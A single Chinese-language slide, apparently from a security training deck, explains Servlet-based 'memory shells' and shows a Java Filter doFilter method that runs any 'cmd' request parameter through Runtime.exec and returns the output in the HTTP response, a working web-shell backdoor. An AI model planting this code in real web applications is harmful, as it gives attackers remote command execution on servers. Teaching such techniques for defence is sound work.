

# 基本概念-基于Servlet的内存马
Filter内存马：
如果想在Filter中增加恶意代码那么只需要在doFilter方法上增加如下代码即可：
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        if (request.getParameter("cmd") != null){
            Process exec = Runtime.getRuntime().exec(request.getParameter("cmd"));
            InputStream inputStream = exec.getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("\\A");
            String output = scanner.hasNext() ? scanner.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
        }
           chain.doFilter(request,response);
    }

31